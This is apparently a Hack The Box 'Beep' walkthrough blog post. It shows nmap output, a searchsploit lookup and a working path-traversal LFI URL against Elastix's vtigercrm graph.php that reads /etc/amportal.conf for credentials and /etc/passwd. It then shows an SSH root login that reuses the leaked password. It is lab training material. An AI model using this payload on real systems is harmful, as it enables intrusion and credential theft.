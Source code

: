 ```yaml
---
layout: post
author: dalemazza
title: HTB - Beep OSCP Walkthrough
date: 2020-07-04
category: HTB
tags: HTB
published: true
---
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/beep.jpg">
</p>
Hi guys today I am tackling beep, One of the oldest boxes on HTB. I will be doing this box without metasploit, OSCP style. This box is a Linux box rated easy.  

This box includes the following techniques:  
* nmap
* searchsploit
* Local File Inclusion

### Quick overview  

This box is running a webserver that has elastix installed on. After trying the default credentials I could not get access. I searched for exploits relating to elastix and found a few. After trying many of them one finally worked. This exploit took me straight to Root!

I Start **nmap** scan as per normal.    
`sudo nmap -A -T4 -p- 10.10.10.7`
```
Nmap scan report for 10.10.10.7
Host is up (0.012s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING UIDL RESP-CODES TOP LOGIN-DELAY(0) AUTH-RESP-CODE USER IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE NAMESPACE ACL Completed THREAD=ORDEREDSUBJECT CHILDREN CATENATE BINARY IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ ID STARTTLS LISTEXT URLAUTHA0001 LIST-SUBSCRIBED IDLE CONDSTORE ANNOTATEMORE RENAME UIDPLUS ATOMIC RIGHTS=kxte IMAP4 LITERAL+ UNSELECT OK QUOTA NO MULTIAPPEND SORT THREAD=REFERENCES
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-04T16:22:18+00:00; +3m04s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), WebSense embedded (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/o:linux:linux_kernel:2.6 cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m03s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   11.57 ms 10.10.14.1
2   11.72 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

That's a lot of stuff to enumerate! I like to start at port 80.  

The web server served me this page

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/1.png">
</p>  
### Fig 1. Elastix login page  
This page is from elastix. Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center. After trying to default credentials I could not get access. Let's see if searchsploit has any exploits.
***
## What is searchsploit?
Searhsploit is a database of exploits. You can give it a program with or without the version and it will go out to several places to see if any exploits are found for that software. The results also give you the scripts used to exploit it.

```
searchsploit Elastix
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/3.png">
</p>  
### Fig 2. Searchsploit results  

Searchsploit has found a few exploits. I struggled to find the version of the the software running so I tried all the exploits. Eventually the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** exploit worked!

Upon looking up the exploit on exploit DB [here](https://www.exploit-db.com/exploits/37637). I found that the exploit had a python script that executes an **LFI** in the graph.php current language path. I didn't need the whole script so i took the **LFI** location and tried it.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/lfi.png">
</p>  
### Fig 3. LFI location  

Now lets see if the exploits runs.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/4.png">
</p>  
### Fig 3. LFI exploits

It works! The page has a lot of text on the screen so i search for "pass"

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/5.png">
</p>  
### Fig 3. Admin credentials

Looks like the we have some admin credentials. One thing I notice is that this page contains the user and passwords for several programs, The same password and username keeps popping up, maybe he use's that for everything?

Let's see what `/etc/passwd` gives us

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/6.png">
</p>  
### Fig 4. etc/passwd

Here we can see that there is a user called 'fanis', we have not got a password for that yet. Let's be cheeky and see if I can read the `root.txt`

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/7.png">
</p>  
### Fig 4. No access to root.txt

Worth a shot! Let's see if the admin reuses his credentials
```
ssh root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/9.png">
</p>  
### Fig 4. SSH error

That is a weird error. After googling I found that this happens when connecting to old deprecated versions of **SSH**. We have to use a flag to connect to this machine.
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/8.png">
</p>  
### Fig 4. SSH error

It worked! Looks like we have root aswell! Time to get those flags!
```
cat root.txt

cat /home/fanis/user.txt
```

This was a fairly easy box, There are many methods to root this box but this is the one I found. Thanks

